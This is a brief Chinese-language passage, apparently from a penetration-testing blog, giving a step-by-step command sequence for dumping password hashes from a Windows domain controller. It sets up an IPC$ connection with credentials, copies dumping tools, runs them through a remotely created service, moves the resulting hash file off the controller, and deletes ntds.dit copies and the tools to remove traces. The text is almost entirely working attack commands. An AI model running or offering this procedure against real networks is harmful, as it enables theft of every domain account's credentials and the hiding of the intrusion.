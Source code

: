 ![](/sourcepictures/2017/11/06/5/11.jpg)

3、实战中hash导出流程  

1. 建立ipc$连接  
`net use \\DC1\c$ password /user:username`  

2. 复制文件到DC  
`copy .\* \\DC1\windows\tasks`  

3. sc建立远程服务启动程序  
`sc \\DC1 create backupntds binPath= "cmd /c start c:\windows\tasks\shadowcopy.bat" type= share start= auto error= ignore DisplayName= BackupNTDS`  

4. 启动服务  
`sc \\DC1 start backupntds`  

5. 删除服务  
`sc \\DC1 delete backupntds`  

6. 讲hash转移到本地  
`move \\DC1\c$\windows\tasks\hash.txt .`  

7. 删除记录文件  
`del \\DC1\c$\windows\tasks\ntds.dit \\DC1\c$\windows\tasks\QuarksPwDump.exe \\DC1\c$\windows\tasks\shadowcopy.bat \\DC1\c$\windows\tasks\vshadow.exe`  

